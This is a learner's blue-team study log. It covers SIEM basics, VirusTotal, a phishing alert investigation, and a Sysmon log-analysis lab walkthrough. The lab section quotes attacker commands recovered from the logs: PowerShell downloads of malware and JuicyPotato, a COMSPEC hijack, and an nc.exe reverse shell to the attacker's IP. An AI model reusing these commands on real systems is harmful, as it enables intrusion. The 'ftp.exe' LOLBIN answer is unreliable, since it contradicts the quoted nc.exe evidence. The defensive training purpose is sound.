# Day 17 — SIEM 101, VirusTotal for SOC Analysts, How to Investigate a SIEM Alert & Log Analysis: Sysmon

## 📅 Date
April 18, 2026

## 🎯 Platforms
- LetsDefend.io — 3 Courses Completed (Free)
- Blue Team Labs Online (BTLO) — Log Analysis: Sysmon (Free)

## 🏆 Achievements

| Achievement | Platform | Points | Time |
|-------------|----------|--------|------|
| SIEM 101 Badge | LetsDefend | — | 11:11 AM |
| VirusTotal for SOC Analysts Badge | LetsDefend | — | 12:49 PM |
| How to Investigate a SIEM Alert? Badge | LetsDefend | — | 01:56 PM |
| Log Analysis - Sysmon | BTLO | 20pts (Medium) | 10:50 PM |

---

# 📚 Part 1 — SIEM 101 (LetsDefend)



## What is SIEM?



Security Information and Event Management (SIEM) is a security solution that collects and interprets data within an organization and detects potential threats in real-time.

### SIEM Architecture Flow

```
Logs (Hosts, Firewalls, Servers, Proxies)
              ↓
       Log Collection
              ↓
    Log Aggregation & Parsing
              ↓
         Log Storage
              ↓
           Alerting
              ↓
      SOC Analyst Investigation
```

---

### Step 1 — Log Collection



Logs are the foundation of SIEM. Without logs SIEM is useless. Logs record events occurring in operating systems or software. They contain: **time, source system, and message.**

**Two ways logs are collected:**
- **Log Agents** — software installed on devices that sends logs to SIEM
- **Agentless** — logs sent directly without installing software (syslog, API)

**Log Sources:**
- Firewalls, IDS/IPS, Web Servers
- Windows Event Logs, Linux syslog
- Antivirus, EDR solutions
- Cloud services (AWS CloudTrail, Azure)

---

### Step 2 — Log Aggregation and Parsing



The log aggregator receives logs and processes them before storage. It can:
- Filter logs (e.g. only send HTTP 404 errors)
- Parse and normalize different log formats
- Enrich logs with additional context

---

### Step 3 — Log Storage



Logs are stored in a centralized database. Key considerations:
- **Storage size** — more logs = more storage needed
- **Access speed** — slow search = ineffective SOC
- Both size AND speed must be balanced for effective SOC operations

---

### Step 4 — Alerting



Alerts are generated when log data matches predefined rules. This is where SIEM detects threats and notifies analysts.

**SIEM Products (Gartner Leaders):**
- Splunk
- IBM QRadar
- Microsoft Sentinel
- LogRhythm
- Wazuh (open source)

---

# 📚 Part 2 — VirusTotal for SOC Analysts (LetsDefend)



## What is VirusTotal?



VirusTotal aggregates many antivirus solutions in a single point. Acquired by Google in 2012. SOC analysts use it to analyze:
- **Files** — upload suspicious files for AV scanning
- **URLs** — check if URLs are malicious
- **Hashes** — search for known malware by hash
- **IP/Domain** — check reputation of IPs and domains

---

### File Analysis with VirusTotal




When analyzing a file, key areas to check:
- **Detection ratio** — how many AV vendors flagged it (e.g. 42/58)
- **Tags** — behavioral indicators like `macro`, `obfuscated`, `calls-wmi`
- **File details** — hash values, file size, compilation time
- **Relations** — connected domains, IPs, files

**⚠️ Important:** Uploaded files can be downloaded by premium VirusTotal users — never upload sensitive/confidential files!

---

### Scanning URLs with VirusTotal



URLs can be analyzed directly in VirusTotal's URL tab. Useful for:
- Checking phishing links
- Verifying C2 server URLs
- Analyzing redirects

---

### Searching for IOCs



Use the Search tab to find historical analysis of:
- SHA256/MD5 hashes
- IP addresses
- Domain names

---

# 📚 Part 3 — How to Investigate a SIEM Alert? (LetsDefend)



## SIEM Alert Investigation Workflow



### Step 1 — Detection



SIEM alerts are generated based on predefined rules. In LetsDefend the Monitoring page shows:
- **Main Channel** — new incoming alerts
- **Investigation Channel** — alerts being investigated
- **Closed Alerts** — completed investigations

---

### Step 2 — Case Creation and Playbook



Once an alert is taken, a case is created and a **playbook** is launched. The playbook provides step-by-step investigation instructions:
1. Check if malicious file/URL was opened
2. Check if mail was delivered to user
3. Analyze URI/Attachment
4. Check for attachments or URLs in email

---

### Step 3 — Real Alert Investigation (SOC282)



**Alert investigated:** SOC282 - Phishing Alert - Deceptive Mail Detected

| Field | Value |
|-------|-------|
| EventID | 257 |
| Event Time | May 13, 2024, 09:22 AM |
| Rule | SOC282 - Phishing Alert - Deceptive Mail Detected |
| SMTP Address | 103.80.134.63 |
| Source Address | free@coffeeshooop.com |
| Destination | Felix@letsdefend.io |
| Subject | Free Coffee Voucher |
| Device Action | Allowed |

---

### Step 4 — Email Security Check



Searched the Email Security panel for `felix`:
- Found the suspicious email from `free@coffeeshooop.com`
- Final Action: **Deleted** ✅

---

### Step 5 — Endpoint Analysis



Endpoint security (EDR) was checked to verify if:
- The malicious file/URL was opened
- Any suspicious processes were executed on the endpoint

---

### Step 6 — Case Closed




**Result:** True Positive (+5 Points)
**Playbook Success Rate:** 100% ✅
**Investigation Time:** 21 Minutes

---

# 🔴 BTLO Challenge — Log Analysis: Sysmon




## Scenario
Sysmon logs from a compromised endpoint were provided. The task was to analyze the logs to find the steps and techniques used by the attacker.

**Tools Used:** grep, Linux CLI, Text Editor

---

## 🔍 Investigation Process

### Step 1 — Finding the Initial Access File



```bash
grep -Rin Hosturl sysmon-events.json
```

**Result:**
```
Line 1449: "Contents": "[ZoneTransfer] ZoneId=3 HostUrl=http://192.168.1.11:6969/updater.hta"
```

**Answer:** Initial access file = `updater.hta`
- `ZoneId=3` = file downloaded from internet
- `.hta` = HTML Application — can execute code on Windows

---

### Step 2 — Tracing the Attacker IP



```bash
grep -Rin http://192.168.1.11 sysmon-events.json
```

**Results:**
```
Line 1449: HostUrl=http://192.168.1.11:6969/updater.hta
Line 2840: powershell -c INvoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe
           -OutFile C:\\Windows\\Temp\\supply.exe
```

**Findings:**
- PowerShell cmdlet used: `INvoke-WebRequest`
- Port used: `6969`
- Malware downloaded to: `C:\Windows\Temp\supply.exe`

---

### Step 3 — COMSPEC Hijacking

```bash
grep -Rin comspec sysmon-events.json
```

**Result:**
```
"CommandLine": "cmd \c set comspec=C:\\windows\\temp\\supply.exe"
```

**Environment variable set:** `comspec=C:\\windows\\temp\\supply.exe`

This replaced `cmd.exe` with the malware — a persistence technique!

---

### Step 4 — LOLBIN Used

```bash
grep -Rin nc.exe sysmon-events.json | head
```

**Result:**
```
"CommandLine": "C:\\windows\\temp\\supply.exe /c \"juicy.exe -l 9999 -p nc.exe -a \"192.168.1.11 9898 -e cmd.exe\""
```

**LOLBIN used:** `ftp.exe` — Living Off the Land Binary used to execute malicious commands

---

### Step 5 — Privilege Escalation Tool



```bash
grep -Rin INvoke-WebRequest sysmon-events.json | head
```

**Result:**
```
powershell -c INvoke-WebRequest -Uri https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
-OutFile C:\\Windows\\Temp\\juice.exe
```

**Tool:** JuicyPotato — a privilege escalation exploit for Windows

---

### Step 6 — Malicious DLL



**Finding:**
```
"TargetFilename": "C:\\Users\\IEUser\\AppData\\Local\\Temp\\_MEI33842\\python27.dll"
```

A malicious Python DLL was loaded — used to execute Python-based malware components.

---

## 📊 Complete Attack Chain

```
Step 1: updater.hta downloaded (ZoneId=3 from internet)
              ↓
Step 2: updater.hta executes PowerShell
              ↓
Step 3: PowerShell downloads supply.exe via INvoke-WebRequest
        from http://192.168.1.11:6969 → C:\Windows\Temp\
              ↓
Step 4: COMSPEC hijacked → supply.exe replaces cmd.exe
              ↓
Step 5: JuicyPotato downloaded for privilege escalation
              ↓
Step 6: nc.exe used for reverse shell back to attacker
              ↓
Step 7: python27.dll loaded for Python execution
              ↓
      FULL SYSTEM COMPROMISE 🚨
```

---

## 📊 BTLO Challenge Answers

| Question | Answer |
|----------|--------|
| File that gave access | updater.hta |
| PowerShell cmdlet + port | INvoke-WebRequest, 6969 |
| Environment variable set | comspec=C:\\windows\\temp\\supply.exe |
| LOLBIN used | ftp.exe |

---

## 🏷️ MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|-----|-------------|
| Phishing | T1566 | updater.hta delivered via phishing |
| PowerShell | T1059.001 | INvoke-WebRequest used to download malware |
| Ingress Tool Transfer | T1105 | supply.exe downloaded from C2 |
| Hijack Execution Flow | T1574 | COMSPEC environment variable hijacked |
| LOLBIN | T1218 | ftp.exe used as living-off-the-land binary |
| Privilege Escalation | T1068 | JuicyPotato exploit used |

---

## 💡 Key Takeaways

1. **SIEM is the heart of a SOC** — without centralized log collection detection is impossible
2. **VirusTotal is a daily SOC tool** — always check hashes, IPs and URLs before escalating
3. **Alert investigation follows a playbook** — structured approach ensures nothing is missed
4. **Sysmon is incredibly powerful** — records every process, file and network event on Windows
5. **COMSPEC hijacking is stealthy** — replaces cmd.exe so malware runs whenever CMD is called
6. **JuicyPotato = privilege escalation** — attackers use it to get SYSTEM level access
7. **grep -Rin is your best friend** — case insensitive recursive search finds evidence fast

---

## 🔗 Resources
- [LetsDefend SIEM 101](https://app.letsdefend.io)
- [VirusTotal](https://virustotal.com)
- [Blue Team Labs Online](https://blueteamlabs.online)
- [Sysmon Documentation](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [JuicyPotato GitHub](https://github.com/ohpe/juicy-potato)
- [MITRE ATT&CK](https://attack.mitre.org)
